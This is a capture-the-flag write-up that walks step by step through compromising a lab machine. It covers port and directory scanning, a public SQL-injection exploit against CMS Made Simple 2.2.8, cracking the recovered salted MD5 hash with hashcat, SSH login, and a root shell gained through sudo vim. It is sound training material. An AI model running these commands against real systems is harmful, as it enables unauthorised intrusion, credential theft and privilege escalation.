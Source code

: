 # Simple CTF

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, hashcat, exploitdb

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.145.85

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sC: script scan<br>
-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
```
nmap -sC -sV -oN nmap.txt 10.10.145.85
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.3),<br>
    80 (http Apache httpd 2.14.18),<br>
    2222 (ssh OpenSSH 7.2p2)

Anonymous login to ftp server is allowed

Vulnerability scan with nmap
```
nmap --script vuln 10.10.145.85
```

![1.5](./imgs/1.5.png)

Enumerate hidden directories on webserver
```
gobuster dir -u http://10.10.145.85 -w /usr/share/dirb/wordlists/common.txt
```

![1.2](./imgs/1.2.png)

Pages of Interest: /robots.txt, /simple

robots.txt has disallow entry /openemr-5_0_1_3

![1.3](./imgs/1.3.png)

/openemr-5_0_1_3 gives 404 error

/simple is a website that uses CMS Made Simple v 2.2.8

![1.4](./imgs/1.4.png)

### 2. FTP LOGIN

Anonymously login to ftp
```
ftp anonymous@10.10.145.85
```
cannot get file named pub from ftp server

### 3. EXPLOIT

Query ExploitDB for exploits
```
searchsploit cms made simple
```

![3.1](./imgs/3.1.png)

CMS Made Simple 2.2.8 is vulnerable to SQLi (CVE-2019-9053) through the installed news module

Use exploit
```
python3 /usr/share/exploitdb/exploits/php/webapps/46635.py -u http://10.10.145.85/simple
```

![3.2](./imgs/3.2.png)

**USERNAME**: mitch

PASSWORD SALT: 1dac0d92e9fa6bb2<br>
PASSWORD HASH: 0c01f4468bd75d7a84c7eb73846e8d96$  

Password cracking failed so will have to manually crack the password with hashcat
```
echo "0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2" > hash
hashid hash
```

![3.3](./imgs/3.3.pg)

Hash type could be md5

-a ATTACK_MODE (0 = straight)
-m HASH_TYPE (20 = md5(\$salt.\$pass))
```
hashcat -a0 -m20 hash /usr/share/wordlists/rockyou.txt
```

![3.4](./imgs/3.4.pg)

**PASSWORD**: secret

### SSH LOGIN

Log into SSH with found credentials
```
ssh mitch@10.10.145.85 -p2222
```
![4.1](./imgs/4.1.pg)

**USER FLAG**: G00d j0b, keep up!

Check privileges
```
sudo -l
```

![4.2](./imgs/4.2.pg)

Can run vim as root

### PRIVILEGE ESCALATION

From https://gtfobins.github.io/gtfobins/vim/#sudo
```
sudo vim -c ':!/bin/sh'
```

![5.1](./imgs/5.1.pg)

**ROOT FLAG**: W3ll d0n3. You made it!